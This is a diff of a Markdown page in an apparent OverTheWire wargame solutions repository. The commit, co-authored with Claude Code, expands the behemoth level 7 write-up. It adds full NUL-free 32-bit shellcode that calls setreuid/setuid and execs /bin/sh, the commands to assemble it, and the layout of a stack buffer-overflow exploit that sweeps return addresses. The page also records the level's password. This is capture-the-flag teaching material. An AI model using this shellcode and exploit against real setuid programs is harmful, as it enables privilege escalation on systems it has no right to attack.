

Before and after one commit to jaher/overthewire-solutions, a Markdown page: behemoth-solutions.md, the part around one of its changes. Shown at 80% size. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Show the assembly source in the behemoth L6 and L7 solutions
Co-Authored-By: Claude Code <noreply@anthropic.com>

````diff
--- a/behemoth-solutions.md
+++ b/behemoth-solutions.md
@@ -244,10 +278,69 @@ Verification: each password was accepted by logging in as the next level's accou
 1. **Read the filter.** `objdump -d` shows the loop with `cmp $0x1ff` before the `isalpha`/`isspace` tests, and the `strcpy` at the end. `strings` gives the failure message.
 2. **Probe it.** `/behemoth/behemoth7 AAAA` succeeds silently; `/behemoth/behemoth7 'AA%A'` prints `Non-alpha chars found in string, possible shellcode!` — proving the filter only looks at characters it walks.
 3. **gdb** (`unset environment`, break at `strcpy`) gives `buf = ebp-0x20c`, return address `ebp+4` → offsets 524/528.
-4. **Write `/tmp/b7.asm` in vim**, assemble (nasm/objdump/objcopy/xxd), 78 bytes.
-5. **Write `/tmp/e_behemoth7.py` in vim**: `b"A"*512 + b"A"*12 + b"BBBB" + pack(ret) + sc`, sweep, then `communicate(b"id\ncat /etc/behemoth_pass/behemoth8\nexit\n")`.
-6. **Run it.** The recording shows `landed in the shellcode at 0xffffdbb0`, `PWN!`, `uid=13008(behemoth8)`, and `L3WIFhR0LW`.
-7. **Verify.** Log in as behemoth8; `CONGRATULATIONS` confirms the game is complete.
+4. **Write the shellcode in `vim /tmp/b7.asm`.** It prints the marker `PWN!`, raises the euid to behemoth8 in a way that survives `execve` (real, effective *and* saved uid), and execs a shell. The instructions are all NUL-free because the payload travels in `argv[1]`:
+   ```
+   BITS 32
+   global _start
+   _start:
+       ; write(1, "PWN!", 4) -- marker for the address sweep
+       xor eax, eax
+       push eax
+       push 0x214e5750      ; "PWN!" little-endian
+       mov ecx, esp
+       xor ebx, ebx
+       inc ebx              ; ebx = 1
+       xor edx, edx
+       mov dl, 4            ; edx = 4
+       xor eax, eax
+       mov al, 4            ; sys_write
+       int 0x80
+       ; euid = geteuid(); setreuid(euid, euid)
+       xor eax, eax
+       mov al, 201          ; sys_geteuid
+       int 0x80
+       mov ebx, eax
+       mov ecx, eax
+       xor eax, eax
+       mov al, 70           ; sys_setreuid
+       int 0x80
+       ; setuid(euid) -- real, effective AND saved uid
+       xor eax, eax
+       mov al, 201
+       int 0x80
+       mov ebx, eax
+       xor eax, eax
+       mov al, 23           ; sys_setuid
+       int 0x80
+       ; execve("/bin//sh", ["/bin//sh", NULL], NULL)
+       xor eax, eax
+       push eax
+       push 0x68732f2f      ; "hs//"
+       push 0x6e69622f      ; "nib/"
+       mov ebx, esp
+       push eax
+       push ebx
+       mov ecx, esp
+       xor edx, edx
+       mov al, 11           ; sys_execve
+       int 0x80
+   ```
+   The double slash in `/bin//sh` keeps the pushed string aligned on a 4-byte boundary, so the two dwords are `hs//` and `nib/` — no padding byte is needed and the code stays NUL-free.
+5. **Assemble and inspect it.**
+   ```
+   nasm -f elf32 /tmp/b7.asm -o /tmp/b7.o
+   objdump -d -M intel /tmp/b7.o     # check each encoding: 68 50 57 4e 21, b0 c9, cd 80 ...
+   objcopy -O binary --only-section=.text /tmp/b7.o /tmp/b7.bin
+   xxd -p /tmp/b7.bin
+   wc -c /tmp/b7.bin                 # 78 bytes
+   ```
+6. **Write `/tmp/e_behemoth7.py` in vim.** It reads `/tmp/b7.bin`, builds
+   ```
+   b"A"*512 + b"A"*12 + b"BBBB" + struct.pack("<I", addr) + sc
+   ```
+   (512 letters for the filter, 12 more letters up to the saved EBP, 4 filler bytes, the return address, then the shellcode), skips addresses whose encoding contains a NUL byte, sweeps `0xffffd000..0xffffe400` looking for `PWN!` in the output of a run that did not die from a signal, and finally runs the winning address with `communicate(b"id\ncat /etc/behemoth_pass/behemoth8\nexit\n")`.
+7. **Run it.** The recording shows `landed in the shellcode at 0xffffdbb0`, `PWN!`, `uid=13008(behemoth8)`, and `L3WIFhR0LW`.
+8. **Verify.** Log in as behemoth8; `CONGRATULATIONS` confirms the game is complete.
 - **Password for behemoth8:** `L3WIFhR0LW`
 - **Verification:** logged in as `behemoth8`; `cat CONGRATULATIONS` → "Congratz!! Now fight for your right to eip=0x41414141!!"
 - **Recording:** `recordings/behemoth/L7.cast`
````
Also changed, not shown: other parts of behemoth-solutions.md (+39 -5 lines).
